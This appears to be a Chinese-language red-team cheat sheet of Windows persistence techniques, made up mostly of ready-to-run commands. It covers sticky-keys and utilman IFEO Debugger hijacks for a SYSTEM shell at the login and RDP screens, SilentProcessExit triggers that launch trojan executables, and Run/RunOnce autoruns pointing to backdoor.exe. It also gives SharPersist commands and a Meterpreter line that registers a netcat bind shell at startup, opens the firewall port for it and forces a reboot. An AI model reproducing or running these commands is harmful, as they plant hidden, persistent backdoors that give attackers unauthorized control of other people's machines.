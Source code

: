  #### Sethc
	>move sethc.exe 1.exe
	>copy cmd.exe sethc.exe
	5下shift调用cmd
 #### 轻松使用
	注册表
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
	新建Utilman.exe，新建字符串值Debugger,指定为C:\Windows\System32\cmd.exe
	> REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
 #### IFEO静默执行
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe 新建DWORD值GlobalFlag 16进制为200
	创建：计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe字符串值：MonitorProcess=muma.exe
	DWORD值ReportingMode=1
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v GlobalFlag /t REG_DWORD /d 512 /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v ReportingMode /t REG_DWORD /d 1  /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v MonitorProcess /t REG_SZ /d "c:\windows\system32\cmd.exe" /f

 ### 注册表启动项
	HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
	HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	使用SharPersist
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
 #### MSF
	添加一个监听
	Meterpreter> reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
	查询是否添加成功
	Meterpreter> reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
	Meterpreter> reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
	开启防火墙进站规则
	> netsh firewall add portopening TCP 444 "name" ENABLE ALL
	重启
	> shutdown -r -t 0
 #### CMD
	查看注册表启动项
	>REG query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	添加启动项
	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "windowsupdate" /t REG_SZ /F /D "c:\windows\temp\update.exe"
	删除启动项
	>REG delete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "windowsupdate" /f
 #### GlobalFlag
  	notepad进程结束后执行后门
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
 #### RDP后门
  	RDP登录界面按Windows 键+U，获得一个SYSTEM权限的 cmd.exe 
  	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
	在 RDP 登录屏幕时按多次 F5 
	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f